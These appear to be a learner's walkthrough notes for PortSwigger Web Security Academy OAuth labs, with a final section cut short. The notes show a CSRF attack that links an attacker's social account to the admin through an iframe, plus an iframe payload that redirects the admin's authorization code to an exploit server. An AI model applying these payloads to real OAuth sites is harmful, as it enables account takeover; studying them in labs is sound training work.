 login with normal usernam and password
attach a social media account with OAuth
study process:

    GET /auth?client_id=vlmsozpti7yxvj88ty6k1&redirect_uri=https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/1.1
response:
    HTTP/1.1 302 Found
    ..
    Redirecting to <a href="https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking?code=C3ZM1zVhBaCRlmu6MeexiZd1pBK7mXnM0KXzFJRSVHL">

and then
    GET /oauth-linking?code=C3ZM1zVhBaCRlmu6MeexiZd1pBK7mXnM0KXzFJRSVHL HTTP/1.1

note it doesnt have a state parameter = vulnarbale!

turn interception on and begin attaching process again
forward until you get a new code. copy url and drop the req.

close interception and go to exploit server
use iframe to build a CSRF attack against the admin:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>


final payload:
    <iframe src="https://0a1d00bb03419cc9c019238000270050.web-security-academy.net/oauth-linking?code=NVzgflLZKPaQcxPX4lYVAaxtXoo2JHkpG980pwSykzF"></iframe>

send to admin (dont load exploit to avoid wasting the linkage code)

log out (note no social media account is linked) and wait for admin to press exploit
log in using you social media and observe you are in admin account
delet carlos

# Carlosed


# ***3. Lab: OAuth account hijacking via redirect_uri***
https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos. 

    GET /auth?client_id=[...]


    GET /auth?client_id=e93r2r12dcywur7blqun3&redirect_uri=https://exploit-0a2700640470274ec0a30d64011d0032.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email HTTP/1.1

    GET  HTTP/1.1

    <iframe src="https://oauth-0a92004d04ee271cc0810d9c025e0097.web-security-academy.net/auth?client_id=e93r2r12dcywur7blqun3&redirect_uri=https://exploit-0a2700640470274ec0a30d64011d0032.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>

